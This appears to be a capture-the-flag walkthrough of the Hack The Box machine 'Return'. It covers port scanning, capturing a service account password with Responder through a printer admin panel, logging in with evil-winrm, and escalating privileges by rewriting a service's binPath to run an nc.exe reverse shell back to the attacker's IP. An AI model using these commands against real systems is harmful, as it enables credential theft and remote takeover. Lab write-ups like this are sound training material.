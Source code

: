 # HTB - Return

#### Ip: 10.10.11.108
#### Name: Return
#### Rating: Easy

----------------------------------------------------------------------

![Return.png](../assets/return_assets/Return.png)

### Enumeration

Lets kick things off by using Nmap to scan all TCP ports to see what's open on this box. I'll also use the `--min-rate 10000` flag to speed things along:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.108 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 14:01 CDT
Nmap scan report for 10.10.11.108
Host is up (0.082s latency).
Not shown: 65510 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49679/tcp open  unknown
49682/tcp open  unknown
49694/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 9.19 seconds
```

Lets dive deeper by also using the `-sV` and `-sC` flags to enumerate versions and use default scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ sudo nmap -sC -sV -T4 10.10.11.108 -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49694
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 14:04 CDT
Nmap scan report for 10.10.11.108
Host is up (0.071s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-05 19:22:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-05-05T19:23:51
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: 18m33s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.95 seconds
```

Ok cool, looks like we are dealing with an Active Directory box here. 

I always like to start off my enumeration by looking at LDAP:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ nmap -n -sV --script "ldap* and not brute" 10.10.11.108
```

This didn't return much of use for us, but did drop a DNS Hostname:

![ldap.png](../assets/return_assets/ldap.png)

Lets go ahead and add return.local and printer.return.local to `/etc/hosts`

Checking out return.local, we find a Printer Admin Panel. Poking around a bit more we see an interesting Settings page:

![settings_page.png](../assets/return_assets/settings_page.png)

Going off a hunch I start a Responder listener on my tun0 interface using:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ sudo responder -I tun0 -wv
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0
```

And change the 'Server Address' field to my tun0 IP address and click update.

Nice looks like we were able to capture the passsword for svc-printer!

![svc-printer_pw.png](../assets/return_assets/svc-printer_pw.png)

Awesome! We can use these creds to directly logon to the box:

```text                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ evil-winrm -u svc-printer -p '1edFg43012!!' -i 10.10.11.108

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
*Evil-WinRM* PS C:\Users\svc-printer\Documents> hostname
printer
```
Lets grab the user.txt flag:

![user_flag.png](../assets/return_assets/user_flag.png)

### Privilege Escalation

Running `whoami /all` shows we are are in a high level shell, but more importantly, it looks like we are also in the Server Operators Group

![server_operators.png](../assets/return_assets/server_operators.png)

Because svc-printer is in the server operators group, that means we can start and stop services on the machine.

Lets see what services are running here:

![services.png](../assets/return_assets/services.png)

Cool, lots to choose from! Lets kick this off by uploading nc.exe to the target. Once nc.exe is on the target our goal will be to modify the path for one of the services, stop the service, set up a netcat listener, and finally restart the service, which should give us back a reverse shell with elevated permissions.

Lets try the VMTools service first:

```text
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.7 8888"
```

Then we need to set up a listener and simply stop and start the service:

```text
sc.exe stop VMTools
sc.exe start VMTools
```

And sure enough we catch a shell back!

![shell.png](../assets/return_assets/shell.png)

All that's left to do now is grab the root.txt flag:

![root_flag.png](../assets/return_assets/root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------------------------------
